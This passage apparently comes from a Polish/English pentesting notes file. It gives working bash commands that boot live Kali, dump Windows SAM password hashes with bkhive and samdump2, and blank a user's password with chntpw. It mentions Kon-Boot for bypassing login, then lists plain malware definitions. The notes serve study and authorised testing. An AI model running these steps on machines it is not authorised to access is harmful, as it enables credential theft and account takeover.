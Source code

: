 Here you need physical access to the machine. At this point there are two cases:
* Running system - In this case, a local administrator account is required to download hashes from the memory.
* Off-line system - In this, passwords hashes are decrypted from the offline password storage file SAM. The key to decrypt SAM is stored in SYSTEM file.

**STEAL HASH/OVERWRITE HASH**
z wyłaczonej maszyny za pomocą wersji live kali linux 
```bash
# terminalu live kali
#  mount the partition where Windows is installed and then move in the folder
root@root: mkdir /mnt/sda1
root@root: mount -t ntfs /dev/sda1 /mnt/sda1 
root@root: cd /mnt/sda1/WINDOWS/system32/config/

# dump hashy uzytkowników
root@root: bkhive system syskey.txt # dla Win7 to bkhive SYSTEM syskey.txt 
root@root: samdump2 SAM syskey.txt > hashdump.txt
root@root: cat hashdump.txt

# usuń hasła użytkowników
root@root: chntpw -l /mnt/sda1/WINDOWS/system32/config/SAM # find all existing users on the Windows machine
root@root: chntpw -u Workgroup SAM # Select the user whose password you want to remove. In my case is “Workgroup”.
# After executing the command it shows you different options. All you have to do is proceed by selecting option 1 “Clear (blank) user password” to remove the Windows password.
# Then press “q” and “y” to save the changes.

```
**BYPASS LOGIN**
[Kon-Boot](http://www.piotrbania.com/all/kon-boot/) is a software which allows to change contents of a Linux and Windows kernel on the fly (while booting). It allows to log into a system as 'root' user without typing the correct password or to elevate privileges from current user to root. It allows to enter any password protected profile without any knowledge of the password.

# Malware
## Definitions
* **Malware** - software written to cause damage or infiltrate computer systems without the owner's informed consent. It is a general term used to represent various forms of intrusive, hostile and/or annoying code.
* **Virus** - ﻿computer program that copies itself and spreads without the permission or knowledge of the owner. Viruses do not spread via exploiting vulnerabilities (the ones that do that are called worms).
* **Trojan horse** (or simply trojan) is a kind of malware that appears to the user to perform a function, but in-fact facilitates unauthorized access to the owner's system. They are not self-replicating unlike viruses.
* **Rootkit** is a malware which is designed to hide the fact that a compromise has already been done or to do the compromise at a deeper level. They are basically installed as drivers (or kernel modules).
* A **backdoor** is a software (or modification to the software) which helps in bypassing authentication mechanism, keeping remote access open (for later unauthorized purpose) which trying to remain hidden.
* ﻿**Adware** is basically advertising supported software which displays ads from time-to-time during the use of the software.
* ﻿A **spyware** is a software(kind of malware) which keeps on spying the user activities such as collecting user information (what he types), his website visiting record and other information without the consent of the computer owner.
* ﻿**Greyware** is a collective name of spyware and adware.
* ﻿A **dialer** is a software which is used to connect to the internet but instead of connecting to normal numbers, they connect to premium numbers which are charged highly.